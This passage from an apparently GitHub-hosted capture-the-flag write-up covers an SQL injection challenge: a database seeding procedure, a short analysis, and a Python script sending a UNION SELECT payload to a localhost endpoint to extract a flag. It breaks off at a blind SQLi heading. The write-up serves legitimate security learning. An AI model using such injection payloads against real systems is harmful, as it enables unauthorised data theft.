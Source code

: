 ```sql
            INSERT INTO users (username, password, bio)
            VALUES (
                CONCAT('admin', i),
                'REDACTED',
                'Flag{REDACTED}'
            );
        ELSE
            INSERT INTO users (username, password, bio)
            VALUES (
                CONCAT('admin', i),
                MD5(CONCAT('admin',i,RAND())),
                CONCAT('Bio for admin', i)
            );
        END IF;
        SET i = i + 1;
    END WHILE;
END //
DELIMITER ;

-- Call the procedure to generate random users
CALL GenerateRandomUsers();

-- Drop the procedure (optional)
DROP PROCEDURE IF EXISTS GenerateRandomUsers;

```

## Analyzation

This is a [SQL injection](https://portswigger.net/web-security/sql-injection) challenge since the user inputs are not checked carefully.

## Solution

### Way 1: [UNION attack](https://portswigger.net/web-security/sql-injection/union-attacks)

We want to see the response, so we will use GET method.

```py
import requests

payload = "' UNION SELECT 1, bio, 3 FROM users WHERE bio LIKE 'Flag%' and '1'='1"

URL = "http://localhost:8000/?user={}".format(payload)
response = requests.get(URL)

print(response.text)
```

### Way 2: [Blind SQLi](https://owasp.org/www-community/attacks/Blind_SQL_Injection)
